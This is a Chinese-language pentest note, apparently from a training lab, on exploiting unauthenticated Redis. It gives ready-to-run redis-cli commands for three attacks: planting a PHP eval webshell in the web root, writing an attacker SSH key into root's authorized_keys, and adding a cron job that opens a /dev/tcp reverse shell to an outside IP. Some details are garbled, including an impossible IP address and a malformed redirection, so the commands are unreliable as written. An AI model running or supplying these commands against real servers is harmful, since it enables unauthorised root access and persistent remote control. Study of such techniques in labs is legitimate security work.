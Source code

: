 ```
http://target.yijinglab.com:56031
```

### 未授权漏洞利用方法
- 通过redis数据备份功能结合Web服务, 向网站根目录写入木马, 获取权限
- 通过redis数据备份功能写定时任务, 通过定时任务反弹shell
- 通过redis数据备份共呢个写SSH公钥, 实现免密登录linux服务器

#### 写Webshell
- 条件
	1. 知道网站根目录绝对路径
	2. 对目标网站根目录有写入权限
通过目录扫描发现文件, 在URL使用构造路径引用文件, 显示报错内容, 可能含有路径信息
- 写webshell: 重置redis根路径到web服务根目录, 使用写入备份功能植入木马
```shell
redis-cli -h 122.114.225.148 -p 6379
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```

#### 写SSH公钥
```shell
# 生成ssh密钥, 默认在Home目录下.ssh文件夹中
ssh-keygen -t rsa

# 将公钥内容写入临时文件
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n")>/tmp/foo.txt

# 作为值写入redis, 键m
cat /tmp/foo.txt | redis-cli -h 122.114.225.148 -p 6379 -x set m

# 将刚才写入的键保存为文件
redis-cli -h 112.114.225.148 -p 6379
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save

# getshell
ssh root@112.114.335.148 -p 2222 -i ~/.ssh/id_rsa
```

#### 写定时任务反弹shell
[[1.4 Linux反弹Shell#定时任务反弹shell]]
```shell
# 连接
redis-cli -h 122.114.225.148 -p 6379
# 设置定时任务的路径和文件名
config set dir /var/spool/cron
config set dbfilename root
# 设定一分钟后的任务, 反弹shell
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>$1\n\n"
# 保存至文件
save
```
